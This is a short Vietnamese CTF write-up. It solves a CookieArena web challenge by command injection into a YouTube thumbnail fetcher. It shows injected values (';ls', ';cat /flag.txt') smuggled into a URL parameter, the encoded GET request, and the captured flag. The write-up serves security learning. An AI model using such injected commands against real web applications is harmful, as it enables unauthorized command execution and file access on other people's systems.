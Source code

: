 Đây là chương trình lấy ảnh youtube bằng link, thử cung cấp 1 url

![image](https://github.com/lucthienphong1120/CookieArena-CTF/assets/90561566/b220a906-2418-477e-9676-6427c646e735)

Có vẻ đây là 1 lệnh linux sử dụng thư viện `youtube-dl`

Khả năng sẽ bị lỗi command injection, thêm `;ls`

Tên file `index.php` được trả về

![image](https://github.com/lucthienphong1120/CookieArena-CTF/assets/90561566/bdced06d-8086-443e-9440-93feba8eb5ce)

Đọc flag tại `;cat /flag.txt`

```
GET /?url=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3Dp6Yw0Bx5dbw%253B%2520cat%2520%252Fflag%252Etxt
```

![image](https://github.com/lucthienphong1120/CookieArena-CTF/assets/90561566/8a986a0b-b339-44fb-acc2-95b5d3cc95bb)

```CHH{Ea5y_cOmmaND_inj3c7Ion_b92d12df3a256af6d2baec30407d6c55}```
